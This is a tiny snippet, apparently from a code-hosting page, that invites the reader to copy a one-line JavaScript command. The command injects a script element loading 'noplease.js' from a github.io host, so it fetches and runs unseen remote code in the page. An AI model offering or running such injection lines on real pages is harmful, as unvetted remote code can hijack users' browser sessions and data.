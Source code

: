 # Here is what you can do.

# Copy this:  x=document.createElement("script");x.src="https://pingurepository.github.io/Thing/noplease.js"; document.head.appendChild(x); 
